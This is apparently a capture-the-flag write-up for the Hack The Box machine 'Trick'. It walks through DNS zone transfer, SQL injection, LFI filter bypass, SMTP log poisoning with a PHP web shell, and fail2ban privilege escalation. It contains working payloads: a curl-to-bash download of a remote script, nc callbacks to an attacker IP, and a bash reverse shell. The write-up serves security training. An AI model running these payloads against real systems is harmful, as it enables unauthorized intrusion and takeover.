

## Overview
This is an older box that's on ippsec's unofficial CPTS playlist. So I won't be revealing anything too new here, but I found this box to be particularly good because of how many things you can try and do to escalate and it makes it an excellent beginner box that weaves in a lot of different concepts. We start this box with only four open ports: 22, 25, 53, and 80. We utilize the DNS to grab the host name and perform a zone-transfer which reveals another webpage that that is vulnerable to SQL Injection. The interesting thing, is the credentials are worthless here and the ideal usecase is using the file-read privilege to read the nginx config, which reveals two things: another web page and that the webpage is owned ran under the user `micahel`. We visit the webpage and find an LFI vulnerability which is vulnerable in a myriad of ways, you can get a webshell through Log/SMTP poisioning or reading the SSH key. Once we go on the box we can see we can run restart the fail2ban service and are apart of a security group which can edit actions in the folder. Editing an action in the folder allows for RCE as root which let's us own the box.


## Initial Recon
### nmap

Nmap results:
```
# Nmap 7.97 scan initiated Sat Jul 26 07:09:58 2025 as: nmap -vv -sCV -oA nmap/trick -Pn -T4 --min-rate 1000 -p- 10.10.11.166
Nmap scan report for 10.10.11.166
Host is up, received user-set (0.13s latency).
Scanned at 2025-07-26 07:09:58 HST for 126s
Not shown: 65531 closed tcp ports (conn-refused)
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 61:ff:29:3b:36:bd:9d:ac:fb:de:1f:56:88:4c:ae:2d (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC5Rh57OmAndXFukHce0Tr4BL8CWC8yACwWdu8VZcBPGuMUH8VkvzqseeC8MYxt5SPL1aJmAsZSgOUreAJNlYNBBKjMoFwyDdArWhqDThlgBf6aqwqMRo3XWIcbQOBkrisgqcPnRKlwh+vqArsj5OAZaUq8zs7Q3elE6HrDnj779JHCc5eba+DR+Cqk1u4JxfC6mGsaNMAXoaRKsAYlwf4Yjhonl6A6MkWszz7t9q5r2bImuYAC0cvgiHJdgLcr0WJh+lV8YIkPyya1vJFp1gN4Pg7I6CmMaiWSMgSem5aVlKmrLMX10MWhewnyuH2ekMFXUKJ8wv4DgifiAIvd6AGR
|   256 9e:cd:f2:40:61:96:ea:21:a6:ce:26:02:af:75:9a:78 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBAoXvyMKuWhQvWx52EFXK9ytX/pGmjZptG8Kb+DOgKcGeBgGPKX3ZpryuGR44av0WnKP0gnRLWk7UCbqY3mxXU0=
|   256 72:93:f9:11:58:de:34:ad:12:b5:4b:4a:73:64:b9:70 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGY1WZWn9xuvXhfxFFm82J9eRGNYJ9NnfzECUm0faUXm
25/tcp open  smtp    syn-ack Postfix smtpd
|_smtp-commands: debian.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8, CHUNKING
53/tcp open  domain  syn-ack ISC BIND 9.11.5-P4-5.1+deb10u7 (Debian Linux)
| dns-nsid: 
|_  bind.version: 9.11.5-P4-5.1+deb10u7-Debian
80/tcp open  http    syn-ack nginx 1.14.2
|_http-title: Coming Soon - Start Bootstrap Theme
|_http-favicon: Unknown favicon MD5: 556F31ACD686989B1AFCF382C05846AA
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: nginx/1.14.2
Service Info: Host:  debian.localdomain; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jul 26 07:12:04 2025 -- 1 IP address (1 host up) scanned in 126.54 seconds
```

We don't have much to work with which is nice for clarity of what we have to pursue for a box. 
DNS is always a low hanging fruit to try so naturally we'll go after that first, then we could utilize SMTP to do user enumeration because the VRFY command works, but we'll likely check out the webserver after. Save guessing to the last resort.

### DNS Note
DNS is typically on UDP so why do we see it on TCP? DNS Servers typically fall back to TCP for a variety of reasons: Large data transfers, malformed responses, DNSSEC, DNS over TLS/HTTPS, or zone-transfers. We almost never see an https in a HTB context, so we'll assume it's due to a zone-transfer being present. Especially when it's not a windows box. Windows boxes need it kerberos typically but this is a linux box without any kerberos in sight. Checking for large TXT records would be another viable option if we get nothing.

```bash
dns -x 10.10.11.166 @10.10.11.166 +short
trick.htb
```
We have a domain name we can add to our hosts

```bash
# I have a sed script to automate insertion into /etc/hosts
add_to_hosts 10.10.11.166 trick.htb
dig axfr trick.htb @10.10.11.166 +noall +answer | awk '{print $1}' | sort -u

preprod-payroll.trick.htb.
trick.htb.
```

So we get a new domain, we also add that to the hosts file.
This is where the divergence really happens because we could directly start viewing the webpages now, or take careful note of the way the url is configured.
`preprod-<name>.trick.htb`

Ideally we always want to have some enumeration going on in the background while we pursue on lead, and since we *know* there's vhosts, there might be more.

```bash
ffuf -u http://10.10.11.166 -w /seclists/dns_vhost-fierce.txt -H 'Host: preprod-FUZZ.trick.htb' -fs 5480
# <snip>
marketing               [Status: 200, Size: 9660, Words: 3007, Lines: 179, Duration: 130ms]
payroll                 [Status: 302, Size: 9546, Words: 1453, Lines: 267, Duration: 131ms]
# </snip>
```
So we have three domains now.


`trick.htb`
Provides us with nothing, it's just a static page.

`preprod-payroll.trick.htb`

This is a bastion of great vulnerabilities.
The quickest one you might try is a SQL Injection.
`admin' or 1=1-- -`
But, in the even this didn't work, you can actually navigate the webpage with curl or burp's repeater as long you don't follow redirects, because of an Execution-After-Redirect (EAR) vulnerability. So you can just navigate the webpage in this manner. You can a list of links in the form of:
`index.php?page=`
You can fuzz that parameter and you would find a valid `users` page.




And then you can just do something like this:
```bash
curl -i -s http://preprod-payroll.trick.htb/manage_user.php?id=1 | grep 'input'
                <input type="hidden" name="id" value="1">
                        <input type="text" name="name" id="name" class="form-control" value="Administrator" required>
                        <input type="text" name="username" id="username" class="form-control" value="Enemigosss" required>
                        <input type="password" name="password" id="password" class="form-control" value="SuperGucciRain
```

And yes, that is the password in plain-text, retrieved by a single curl command from an unauthorized user. This is basically as bad as the sharepoint vulnerability going around. Obviously, that's not necessary and the sql makes our job so much easier, but realizing this possible is very helpful. I'll explain exactly why it happens in this case, when we look at the source code.

The SQL injection, lets us in, but the application is basically useless. But SQL does offer other usecases so if we have certain privileges we should check to see what we can do. Capture a login request and send it to sqlmap via `sqlmap -r $request --level 5 --risk 3 --batch`
You can dump all the tables, but nothing of value is there.
We'll check our privileges, get the nginx configuration file and from there we can see where the root of the file is to inspect its source code.

```bash
sqlmap -r $request --privilege
#snip
database management system users privileges:
[*] 'remo'@'localhost' [1]:
    privilege: FILE


#snip

sqlmap -r $request --file-read /etc/nginx/sites-enabled/default
sqlmap -r $request --file-read /var/www/html/payroll/index.php

```


```conf
server {
	listen 80 default_server;
	listen [::]:80 default_server;
	server_name trick.htb;
	root /var/www/html;

	index index.html index.htm index.nginx-debian.html;

	server_name _;

	location / {
		try_files $uri $uri/ =404;
	}

	location ~ \.php$ {
		include snippets/fastcgi-php.conf;
		fastcgi_pass unix:/run/php/php7.3-fpm.sock;
	}
}


server {
	listen 80;
	listen [::]:80;

	server_name preprod-marketing.trick.htb;

	root /var/www/market;
	index index.php;

	location / {
		try_files $uri $uri/ =404;
	}

        location ~ \.php$ {
                include snippets/fastcgi-php.conf;
                fastcgi_pass unix:/run/php/php7.3-fpm-michael.sock;
        }
}

server {
        listen 80;
        listen [::]:80;

        server_name preprod-payroll.trick.htb;

        root /var/www/payroll;
        index index.php;

        location / {
                try_files $uri $uri/ =404;
        }

        location ~ \.php$ {
                include snippets/fastcgi-php.conf;
                fastcgi_pass unix:/run/php/php7.3-fpm.sock;
        }
}

```

This NGINX conf gives us the other domain we found via fuzzing, which is the alternative way to find it. This is the *intended* method. We also see that the web root is in `/var/www/payroll` for the first site and `/var/www/market` for the next. The other notable thing is that it looks like there's another socket being ran, as michael.
You can actually verify this

Let's inspect the source code of the first site:
```bash
sqlmap -r $request --file-read /var/www/payroll/index.php
```

Once you open it up, you'll see this snippet.

```php
<?php
	session_start();
  if(!isset($_SESSION['login_id']))
    header('location:login.php');
 include('./header.php'); 
 // include('./auth.php'); 
 ?>
```

This is why it's called Execution after redirect.
The logic is simple, it says if a login id is not set in the session, change the header's location to login.php. This telling the browser to redirect, and it is relying on that behavior and only that behavior. So if you just ignore the redirect, you can browse anything you like in the website without authorization. A simple `die()` would have prevented this, but honestly this software is terrible and somehow actually real? Even though there's typo's in it.

Now that we saw that, we'll continue we can navigate to the webpage and see what's up. But we already have file-read privileges, so we can grab the index.
```bash
sqlmap -r $request --file-read /var/www/market/index.php

```
```php
<?php
$file = $_GET['page'];

if(!isset($file) || ($file=="index.php")) {
   include("/var/www/market/home.html");
}
else{
	include("/var/www/market/".str_replace("../","",$file));
}
?>

```
This looks like an attempt to prevent Local File Inclusion.
It directs the base, and trys to prevent previous directory searching.
So all we have to do is append `....//` instead of `../` and we can get files.
But...why is that useful? We already can grab files?
Remember from the nginx config, this is under a different user, specifically `michael` and not `www-data` one of them is likely to have an ssh key.


But, what if that wasn't there?
Since the other notable thing is that it is an `include()` statement in the code. This means ANY file that has php code in it, will get executed. So if we can write to some file arbitrarily, then we can get RCE as michael.
So, there used to be two options. SMTP mail and Log poisoining. However, the log poisoining doesn't work anymore due to permission changes.

## Foothold
### via SMTP 

```bash
swaks --server trick.htb \
      --to michael \
      --from meow \
      --header "Subject: Meow" --body '<?php system($_REQUEST["cmd"]); ?>' 
```

And mail is stored in `/var/mail/$user`
We can navigate there and we'll see our email, but nothing else. We have to include parameter `&cmd=id`
And once you see that you can easily get a shell by hosting it, or whatever payload you prefer.
```bash
curl 'http://preprod-marketing.trick.htb/index.php?page=....//....//....//....//....//....//var/mail/michael&cmd=curl%20http://$ip:$port/rs.sh|bash'
```


## Path to Root
```bash
michael@trick:~$ sudo -l
Matching Defaults entries for michael on trick:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User michael may run the following commands on trick:
    (root) NOPASSWD: /etc/init.d/fail2ban restart

```

So we have fail2ban which we can restart and it runs as root.
We saw michael is in the security group with id command. So we can see what useful things they have access to.
```bash
michael@trick:~$ find / -group security 2>/dev/null
/etc/fail2ban/action.d
```


```bash
ls /etc/fail2ban/action.d
```
```
abuseipdb.conf     dshield.conf                   firewallcmd-rich-rules.conf  iptables-ipset-proto4.conf           mail.conf               nftables-multiport.conf  sendmail-buffered.conf             sendmail-whois-matches.conf
apf.conf           dummy.conf                     helpers-common.conf          iptables-ipset-proto6-allports.conf  mail-whois-common.conf  nginx-block-map.conf     sendmail-common.conf               shorewall.conf
badips.conf        firewallcmd-allports.conf      hostsdeny.conf               iptables-ipset-proto6.conf           mail-whois.conf         npf.conf                 sendmail.conf                      shorewall-ipset-proto6.conf
badips.py          firewallcmd-common.conf        ipfilter.conf                iptables-multiport.conf              mail-whois-lines.conf   nsupdate.conf            sendmail-geoip-lines.conf          smtp.py
blocklist_de.conf  firewallcmd-ipset.conf         ipfw.conf                    iptables-multiport-log.conf          mynetwatchman.conf      osx-afctl.conf           sendmail-whois.conf                symbiosis-blacklist-allports.conf
bsd-ipfw.conf      firewallcmd-multiport.conf     iptables-allports.conf       iptables-new.conf                    netscaler.conf          osx-ipfw.conf            sendmail-whois-ipjailmatches.conf  ufw.conf
cloudflare.conf    firewallcmd-new.conf           iptables-common.conf         iptables-xt_recent-echo.conf         nftables-allports.conf  pf.conf                  sendmail-whois-ipmatches.conf      xarf-login-attack.conf
complain.conf      firewallcmd-rich-logging.conf  iptables.conf                mail-buffered.conf                   nftables-common.conf    route.conf               sendmail-whois-lines.conf

```

So that's a lot of files and I wasn't too familiar with the configuration of fail2ban, I know it bans ips. I saw how ippsec did it and this is one where I didn't exactly like how he went about it. He guessed at the configuration change and did it specifically by banning himself to a shell. It's particularly dangerous if well, the box didn't unban you.
So I inspected some of the configuration files and they all have this kind of setup:
```conf
[Definition]
actionstart =
actionstop =
actioncheck =
actionban = 
actionuban =

[Init]
```

There's an `actionstart` which seems a lot more useful. But I have no clue which of these conf files actually are loading.
So how I thought about doing this, was to loop through them and have each one call out to me with the filename and reload the daemon. The nice thing with this is you can script it, and have it backup the files individually and do it sequentially, if you wanted to be a bit more stealthy with it.
The only enumeration that hinted to me that it was indeed multiport, was in jail.conf:
```

banaction = iptables-multiport
banaction_allports = iptables-allports
```
However, that's extremely hard to catch, so what I did was this:
```bash
#!/usr/bin/env bash

for conf in /etc/fail2ban/action.d/*.conf; do
   if ! grep -q 'actionstart =' $conf; then
      continue
   fi
   name=$(basename $conf)
   mv $conf /tmp/$name
   cat <<EOF > $conf
[Definition]
actionstart = echo $name | nc 10.10.14.7 9001
actionstop =
actionban =
actionunban =

[Init]
EOF
   done

sudo /etc/init.d/fail2ban restart
```

And I hosted a webserver to catch any responses;
```
Serving HTTP on 0.0.0.0 port 9001 (http://0.0.0.0:9001/) ...
10.10.11.166 - - [27/Jul/2025 17:03:42] code 400, message Bad request syntax ('iptables-multiport.conf')
10.10.11.166 - - [27/Jul/2025 17:03:42] "iptables-multiport.conf" 400 -
```


So I know I can make a script with iptables-multiport.conf and get it to execute whatever I want.
```bash
cat <<EOF > /etc/fail2ban/action.d/iptables-multiport.conf
[Definition]
actionstart = /dev/shm/meow.sh
actionstop =
actionban =
actionunban =

[Init]
EOF
cat <<EOF > /dev/shm/meow.sh && chmod +x /dev/shm/meow.sh
#!/bin/bash
bash -i >& /dev/tcp/$ip/$port 0>&1 
EOF
sudo /etc/init.d/fail2ban restart
```
And that's the box.


